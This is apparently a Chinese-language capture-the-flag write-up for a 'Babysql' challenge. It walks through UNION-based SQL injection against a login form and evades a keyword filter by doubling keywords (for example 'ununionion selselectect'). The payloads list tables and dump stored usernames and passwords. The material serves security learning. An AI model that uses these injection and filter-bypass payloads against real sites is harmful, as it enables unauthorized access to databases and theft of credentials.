




# Babysql
## 考察知识点：
### 1.联合注入
### 2.双写绕过

## 首先fuzz一下，看看过滤了什么：

发现输入的select...提示input your username and password,猜测被替换为空

### 尝试使用双写，绕过：
payload:

`?username=admin&password=admin'order by 4--+`

发现or,by被过滤，

`?username=admin&password=admin'oorrder bbyy 4--+`

### 报错，说明存在三个字段

`?username=admin&password='ununionion%20selselectect%20null,database(),user()--+`

### 确定注入点以及回显点

已经知道数据库名了，直接构造查询表名的payload:

`?username=admin&password='ununionion%20selselectect%20null,version(),group_concat(table_name)%20frfromom%20infoorrmation_schema.tables%20whwhereere%20table_schema='geek'--`

此处注意重写where和or

### 构造payload查询b4bsql表内容:

`?username=admin&password='ununionion%20selselectect%20null,version(),group_concat(username,passwoorrd)%20frfromom%20b4bsql--+`

